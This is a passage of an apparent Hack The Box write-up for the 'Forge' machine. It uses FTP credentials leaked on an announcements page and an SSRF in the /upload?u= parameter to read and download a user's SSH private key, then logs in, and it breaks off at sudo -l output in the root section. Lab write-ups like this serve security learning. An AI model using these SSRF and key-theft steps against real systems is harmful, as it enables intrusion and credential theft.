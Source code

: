 ```
<html>
<head>
    <title>Announcements</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <link rel="stylesheet" type="text/css" href="/static/css/announcements.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br>
    <ul>
        <li>An internal ftp server has been setup with credentials as user:heightofsecurity123!</li>
        <li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
        <li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=&lt;url&gt;.</li>
    </ul>
</body>
</html>
```
We have the credentials to an internal ftp server! (user:heightofsecurity123!). We also know that the /upload endpoint works with GET request and that supports ftp. So we can try and exploit it with our SSRF technique.
The url to use will be:
```
http://ADMIN.FORGE.HTB/upload?u=ftp://user:heightofsecurity123!@FORGE.HTB
```
We did it! We are able to access files from ftp through SSRF, that's cool. Let's get the id_rsa key and login with ssh.
```
http://ADMIN.FORGE.HTB/upload?u=ftp://user:heightofsecurity123!@FORGE.HTB/.ssh/id_rsa
```
Then, lets curl the given url, prepare the machine id_rsa and finally connect with ssh.
```
➜ curl http://forge.htb/uploads/v91BRheWkrR0I4Bh1PZO > id_rsa
➜ puttygen id_rsa -O private-openssh -o id_rsa.conv
TODO: how did I find user?
➜ ssh -i id_rsa.conv user@10.10.11.111
```

# ROOT
After checking for multiple things as always for privilege escalation. There was a command that returned something very interesting:
```
user@forge:/opt$ sudo -l
Matching Defaults entries for user on forge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on forge:
    (ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/remote-manage.py
```
